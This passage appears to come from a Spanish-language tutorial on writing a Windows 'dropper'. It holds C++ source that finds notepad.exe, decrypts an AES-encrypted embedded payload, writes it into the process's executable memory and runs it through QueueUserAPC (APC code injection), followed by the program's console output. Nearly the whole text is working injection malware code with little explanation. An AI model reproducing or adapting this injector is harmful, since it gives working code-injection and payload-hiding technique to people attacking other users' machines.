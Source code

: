 ```c++
        }       
        CloseHandle(hProcSnap); //se cierra el snapshot       
        return pid; // retorno de pid
}

int Inject(int pid, HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
	HANDLE hThread = NULL;
	LPVOID pRemoteCode = NULL;
	CONTEXT ctx;
	hThread = FindThread(pid);
	if (hThread == NULL) {
		printf("Error, hijack unsuccessful.\n");
		return -1;
	}
	printf("[Inject] External thread handle %d \n", hThread);
	pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
	printf("[Inject] pRemoteCode %p \n",pRemoteCode);
	QueueUserAPC((PAPCFUNC)pRemoteCode, hThread, NULL);
	printf("[Inject] Asynchronous Process Call wait for execution ... \n");
	return 0;
}



int main(void) {
	printf("[Main] Init Dropper \n");
	int pid = 0;
    HANDLE hProc = NULL;
	pid = FindProcess("notepad.exe");
	if (pid) {
		printf("[Main] notepad.exe PID = %d\n", pid);
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);
		if (hProc != NULL) {
			AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));
			printf("[Main].AesDecrypt %s \n", payload);
			Inject(pid, hProc, payload, payload_len);
			CloseHandle(hProc);
		}
	}
	printf("[Main] End Dropper \n");
	return 0;
}

```

Salida de la ejecución del proceso:

```
[Main] Init Dropper
[FindProcess]: Process Found notepad.exe : PID 6044
[Main] notepad.exe PID = 6044
[Main].AesDecrypt ⁿHâΣ≡Φ└
[FindThread] for pid 6044
[FindThread] : Thread found 6064 : ProcessId 6044
[Inject] External thread handle 212
[Inject] pRemoteCode 0000017CFD840000
[Inject] Asynchronous Process Call wait for execution ...
[Main] End Dropper
```
